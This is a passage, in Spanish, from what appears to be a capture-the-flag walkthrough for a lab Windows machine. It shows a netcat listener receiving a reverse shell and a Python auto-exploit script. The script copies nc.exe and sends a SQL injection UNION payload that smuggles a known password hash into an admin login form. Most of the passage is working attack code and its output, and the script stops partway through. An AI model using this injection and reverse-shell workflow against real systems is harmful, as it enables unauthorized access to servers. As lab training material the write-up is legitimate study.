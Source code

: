Luego, solo basta con iniciar al script junto con tu ip y el puerto que quieras recibir la reverse, y dejas tu `netcat` esperando conexión.
```
[+] Completando proceso, revise netcat
```
```
nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.239] 60385
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>
```

El código completo es el siguiente:
```python
import requests,sys,subprocess
from pwn import *
from os import system


def def_handler(sig, frame):
    print("\n\n[!] saliendo...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

if len(sys.argv) < 3:
    print(f'[!] Uso: python3 {sys.argv[0]} "Tu IP"  "Puerto para tu netcat"\n' )
    sys.exit(1)


ipHost = sys.argv[1]
ipPort = sys.argv[2]
LoveIP = 'http://10.10.10.239'
s = requests.Session()

def getNetcat():
    try:
        result = subprocess.check_output(["locate", "nc.exe"])
        result2 = result.decode("utf-8")
        path = result2.split("\n")[0]
        system(f'cp {path} .')
    except:
        print("nc.exe not found")
        exit(1)

def sqli():
    ip = f'{LoveIP}/admin/login.php'
    post_data = {
        'login':'yea',
        'password':'admin',
        'username': """dsfgdf' UNION SELECT 1,2,"$2y$12$jRwyQyXnktvFrlryHNEhXOeKQYX7/5VK2ZdfB9f/GcJLuPahJWZ9K",4,5,6,7 from INFORMATION_SCHEMA.SCHEMATA;-- -"""
    }
    cookies = s.cookies
    r = s.post(ip,data = post_data,cookies=cookies)

    if r.status_code == 200:
        print("[+] Injección SQL exitosa\n")
    else:
        print("[!] Injección SQL fallida\n")
        sys.exit(1)

```